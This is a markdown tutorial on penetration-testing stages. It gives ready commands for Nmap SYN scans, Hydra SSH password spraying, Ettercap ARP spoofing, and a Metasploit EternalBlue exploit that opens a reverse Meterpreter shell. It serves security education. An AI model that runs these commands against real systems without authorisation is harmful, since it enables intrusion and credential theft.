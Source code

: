 ```markdown
# Penetration Testing Stages: Easy Examples and Explanations

This document provides an overview of key penetration testing stages, including port scanning, authentication, password spraying, protocol spoofing, and exploitation with initial access. Each stage is explained with easy-to-follow examples.

---

## Port Scanning

Port scanning is the process of identifying open ports and services on a target system. It helps determine potential entry points for exploitation.

### Example: Scanning for Open Ports
1. **Tool**: Nmap
2. **Command**:
   ```bash
   nmap -sS -p 1-1000 <target-ip>
   ```
3. **Explanation**:
   - `-sS`: Performs a stealth SYN scan.
   - `-p 1-1000`: Scans ports 1 through 1000.
4. **Output**:
   ```plaintext
   PORT     STATE SERVICE
   22/tcp   open  ssh
   80/tcp   open  http
   443/tcp  open  https
   ```
5. **Use Case**:
   - Identify services running on open ports (e.g., SSH, HTTP) for further testing.

---

## Authentication

Authentication is the process of verifying a user's identity. Penetration testers often analyze authentication mechanisms to identify weaknesses.

### Example: Testing Authentication
1. **Scenario**: A web application login page.
2. **Tool**: Burp Suite
3. **Steps**:
   - Intercept the login request using Burp Suite.
   - Analyze the request to identify parameters (e.g., `username` and `password`).
   - Test for vulnerabilities like weak passwords or improper session handling.
4. **Example Request**:
   ```http
   POST /login HTTP/1.1
   Host: example.com
   Content-Type: application/x-www-form-urlencoded

   username=admin&password=admin123
   ```
5. **Outcome**:
   - Identify weak credentials or misconfigured authentication mechanisms.

---

## Password Spraying

Password spraying is a brute-force attack technique where a single password is tested against multiple usernames to avoid account lockouts.

### Example: Performing a Password Spraying Attack
1. **Tool**: Hydra
2. **Command**:
   ```bash
   hydra -L usernames.txt -p Password123 <target-ip> ssh
   ```
3. **Explanation**:
   - `-L usernames.txt`: Specifies a file containing a list of usernames.
   - `-p Password123`: Tests the password `Password123` against all usernames.
   - `ssh`: Specifies the SSH protocol.
4. **Output**:
   ```plaintext
   [22][ssh] host: 192.168.1.10   login: jdoe   password: Password123
   ```
5. **Use Case**:
   - Identify accounts with weak or default passwords.

---

## Protocol Spoofing

Protocol spoofing involves impersonating a legitimate protocol to manipulate or intercept network traffic.

### Example: ARP Spoofing
1. **Objective**: Intercept traffic between two devices on the same network.
2. **Tool**: Ettercap
3. **Steps**:
   - Enable IP forwarding:
     ```bash
     echo 1 > /proc/sys/net/ipv4/ip_forward
     ```
   - Launch Ettercap:
     ```bash
     ettercap -T -M arp:remote /<target-ip>/ /<gateway-ip>/
     ```
   - Monitor intercepted traffic.
4. **Outcome**:
   - Capture sensitive data such as credentials or session tokens.

---

## Exploitation and Initial Access

Exploitation involves leveraging vulnerabilities to gain unauthorized access to a target system. Initial access is the first step in compromising a system.

### Example: Exploiting a Vulnerability
1. **Scenario**: Exploiting the EternalBlue vulnerability (MS17-010) on a Windows machine.
2. **Tool**: Metasploit
3. **Steps**:
   - Start Metasploit:
     ```bash
     msfconsole
     ```
   - Search for the exploit:
     ```plaintext
     search ms17_010
     ```
   - Use the exploit module:
     ```plaintext
     use exploit/windows/smb/ms17_010_eternalblue
     ```
   - Set the target:
     ```plaintext
     set RHOSTS <target-ip>
     ```
   - Set the payload:
     ```plaintext
     set payload windows/x64/meterpreter/reverse_tcp
     ```
   - Launch the exploit:
     ```plaintext
     exploit
     ```
4. **Outcome**:
   - Gain a Meterpreter session on the target machine.

---

## Security Considerations

- **Port Scanning**: Use stealth techniques to avoid detection by intrusion detection systems (IDS).
- **Authentication**: Test only with permission to avoid violating ethical guidelines.
- **Password Spraying**: Limit attempts to avoid account lockouts.
- **Protocol Spoofing**: Ensure ethical use and avoid disrupting legitimate network traffic.
- **Exploitation**: Always obtain written permission before exploiting vulnerabilities.

---

By understanding these stages and practicing the examples, you can effectively conduct penetration testing while adhering to ethical guidelines.
```